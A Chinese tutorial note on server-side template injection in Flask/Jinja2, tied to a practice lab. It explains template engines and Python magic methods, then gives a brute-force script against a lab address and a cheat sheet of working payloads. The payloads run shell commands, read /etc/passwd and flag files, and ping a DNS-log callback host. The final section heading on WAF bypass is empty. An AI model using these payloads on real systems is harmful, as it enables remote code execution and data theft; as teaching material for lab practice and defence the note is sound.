


[TOC]

[X3NNY/sstilabs: A lab to help you learning SSTI (github.com)](https://github.com/X3NNY/sstilabs)

### SSTI简介

SSTI就是服务器模板注入 当前使用的一些框架，比如python的flask，php的tp，java的spring等一般都采用成熟的MVC的模式，用户 的输入先进入Controller控制器，然后根据请求类型和请求的指令发送给对应Model业务模型进行业务逻辑 判断，数据库存取，最后把结果返回给View视图层，经过模板渲染展示给用户。

漏洞成因就是服务端接收了用户的恶意输入以后，未经任何处理就将其作为 Web 应用模板内容的一部分， 模板引擎在进行目标编译渲染的过程中，执行了用户插入的可以破坏模板的语句，因而可能导致了敏感信息 泄露、代码执行、GetShell 等问题。其影响范围主要取决于模版引擎的复杂性。

凡是使用模板的地方都可能会出现 SSTI 的问题，SSTI 不属于任何一种语言，沙盒绕过也不是，沙盒绕过只 是由于模板引擎发现了很大的安全漏洞，然后模板引擎设计出来的一种防护机制，不允许使用没有定义或者 声明的模块，这适用于所有的模板引擎。

### 模板是什么

模板引擎（特指web开发的模板引擎）是为了使用户界面与业务数据（内容）分离而产生的，他可以生成特 定格式的文档，用于网站的模板引擎就会生成一个标准的HTML文档。 模板引擎会提供一套生成 HTML 代码的程序，然后只需要获取用户的数据，然后放到渲染函数里，然后生成 模板+用户数据的前端 HTML 页面，然后反馈给浏览器，呈现在用户面前。 它可以理解为一段固定好格式，等着你来填充信息的文件。通过这种方法，可以做到逻辑与视图分离，更容 易、清楚且相对安全地编写前后端不同的逻辑。

### 漏洞成因

ssti主要为python的一些框架 jinja2 mako tornado django，PHP框架smarty twig，java框架jade velocity 等等使用了渲染函数时，由于代码不规范或信任了用户输入而导致了服务端模板注入，模板渲染其实并没有 漏洞，主要是程序员对代码不规范不严谨造成了模板注入漏洞，造成模板可控。

### SSTI基础知识

##### Python-flask模板

Python-Flask使用Jinja2作为渲染引擎 （Jinja2.10.x Documention）

 jinja2是Flask作者开发的一个模板系统，起初是仿django模板的一个模板引擎，为Flask提供模板支持，由 于其灵活，快速和安全等优点被广泛使用。

在jinja2中，存在三种语法：

```
 用来声明变量
{{ ... }} 用来将表达式打印到模板输出
{# ... #} 表示未包含在模板输出中的注释
在模板注入中，主要使用的是{{}} 和 
检测是否存在ssti
在url后面，或是参数中添加 {{ 6*6 }} ，查看返回的页面中是否有 36
```

jinja2模板中使用 {{ }} 语法表示一个变量，它是一种特殊的占位符。当利用jinja2进行渲染的时候，它会把这 些特殊的占位符进行填充/替换，jinja2支持python中所有的Python数据类型比如列表、字段、对象等 

jinja2中的过滤器可以理解为是jinja2里面的内置函数和字符串处理函数。

被两个括号包裹的内容会输出其表达式的值

##### Python中的一些 Magic Method

在Python中，所有以“”双下划线包起来的方法，都统称为“Magic Method”，中文称『魔术方法』,例如类的 初始化方法`__init__`

一些做SSTI类题目时常用的属性和方法

```
属性
__class__：用于获取当前对象所对应的类
__base__：用于获取该类的直接父类（基类）
__bases__：返回一个类直接所继承的类（元组形式）
__mro__：返回一个类所继承的所有类
__dict__：返回当前类的函数、全局变量、属性等
__init__：用于将对象实例化，所有类都具有 __init__ 方法，便于利用它来作为跳板访问 __globals__
__globals__：function.__globals 用于获取function所处空间下可使用的module、方法以及所有变量
__builtins__：获取python内置的方法比如ord、chr等
方法
__subclasses__：返回该类的所有直接子类
__import__：动态加载类和函数，也就是导入模块，经常用于导入os模块
__getattribute__：在访问对象的属性时进行自定义处理。无论对象中的属性是否存在，只要访问对象的属性，就会无条件进入
__getattr__：访问对象中不存在的属性时进行处理。当对象中没有被访问的属性时，Python解释器会自动调用该方法
```

爆破需要的模块的EXP：

```Python
import requests
from lxml import html

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36',
}

url = "http://192.168.159.128:50000/level/1"

NUM = 500

if __name__ == "__main__":

    # # 查找类
    # find_class = "importlib"
    # for i in range(NUM):
    #
    #     data_class1 = {
    #         'code': "{{().__class__.__bases__[0].__subclasses__()[%d]}}" % i
    #     }
    #
    #     res = requests.post(url=url, data=data_class1, headers=headers)
    #     if find_class in res.text:
    #         tree = html.fromstring(res.text)
    #         print(str(i) + " -> " + tree.text)

    # 查找类方法
    find_method = "load_module"
    for i in range(NUM):

        data_method = {
            'code': "{{().__class__.__bases__[0].__subclasses__()[%d].__init__.__globals__}}" % i
        }

        data_class = {
            'code': "{{().__class__.__bases__[0].__subclasses__()[%d]}}" % i
        }

        res = requests.post(url=url, data=data_method, headers=headers)
        if find_method in res.text:
            res2 = requests.post(url=url, data=data_class, headers=headers)
            tree = html.fromstring(res2.text)
            print(str(i) + " -> " + tree.text)

    # # 查看内置函数
    # for i in range(NUM):
    #     data_builtins = {
    #         'code': "{{().__class__.__bases__[0].__subclasses__()[%i].__init__.__globals__['__builtins__']}}" % i
    #     }
    #
    #     res3 = requests.post(url=url, data=data_builtins, headers=headers)
    #     if res3.text != "Hello " and res3.text != "No this level":
    #         print(html.fromstring(res3.text).text.replace("\n", "【回车】"))
    #         break

    # # 查看某个类的__globals__
    # data_globals = {
    #     'code': "{{().__class__.__bases__[0].__subclasses__()[" + str(133) + "].__init__.__globals__}}"
    # }
    #
    # res3 = requests.post(url=url, data=data_globals, headers=headers)
    # if res3.text != "Hello " and res3.text != "No this level":
    #     print(html.fromstring(res3.text).text.replace("\n", "【回车】"))

```


```
<class 'os._wrap_close'>类：
利用popen()执行命令：().__class__.__bases__[0].__subclasses__()[133].__init__.__globals__['popen']('whoami').read()
利用system()执行命令：().__class__.__bases__[0].__subclasses__()[133].__init__.__globals__['system']('ping 78319.UOFOS5Q7RU.dns.xms.la')

通过__builtins__获取内置方法，能够调用__builtins__即可，测试很多类都能够调用：
利用eval()执行命令：().__class__.__bases__[0].__subclasses__()[465].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("cat ./flag").read()')
通过open()查看flag：().__class__.__bases__[0].__subclasses__()[465].__init__.__globals__['__builtins__']['open']('./flag', 'r').read()

<class 'subprocess.Popen'>类：
利用subprocess.run()执行命令：().__class__.__bases__[0].__subclasses__()[396].__init__.__globals__['run']('whoami', capture_output=True, text=True).stdout
利用subprocess.Popen()执行命令：().__class__.__bases__[0].__subclasses__()[396].__init__.__globals__['Popen'](["touch", "./456"])

<class '_frozen_importlib.BuiltinImporter'>类：
利用load_module()加载模块os进行执行命令：().__class__.__bases__[0].__subclasses__()[84]['load_module']("os")["popen"]("ls").read()

利用linecache函数执行命令，有几个类都有这个函数：
linecache()这个函数中也引入了os模块：().__class__.__bases__[0].__subclasses__()[259].__init__.__globals__['linecache'].os.popen('dir').read()

<class '_frozen_importlib_external.FileLoader'>类：
通过get_data函数读取文件内容：().__class__.__bases__[0].__subclasses__()[94]["get_data"](0, "/etc/passwd")

os模块执行命令:
通过config，调用os模块：config.__class__.__init__.__globals__['os'].popen('whoami')
通过url_for，调用os：{url_for.__globals__.os.popen('whoami').read()
在已经加载os模块的子类里直接调用os模块：''.__class__.__bases__[0].__subclasses__()[341].__init__.__globals__['os'].popen("ls -l").read()
```

`subprocess.Popen()`

`os.system()`


`linecache()`执行命令


解析`{{().__class__.__bases__[0].__subclasses__()[%i].__init__.__globals__['__builtins__']}}`


>`__class__.__base__.__subclasses__()` 列表中通常不会包含 `file` 类的子类，因为在 Python 3 中，`file` 类已经被移除，不再是内置类型。
>
>在早期版本的 Python（Python 2.x）中，`file` 类用于表示文件对象，并作为内置的文件 I/O 类型。但从 Python 3 开始，`file` 类被替代为内置的 `io` 模块中的 `io.TextIOWrapper` 和 `io.BufferedIOBase` 等类。
>
>在 Python 3 中，文件 I/O 操作应该使用 `open()` 函数来打开文件，而不是直接使用 `file` 类。`open()` 函数返回一个文件对象，它是 `io.TextIOWrapper` 或 `io.BufferedIOBase` 的实例，可以用于进行文件读写操作。

### waf绕过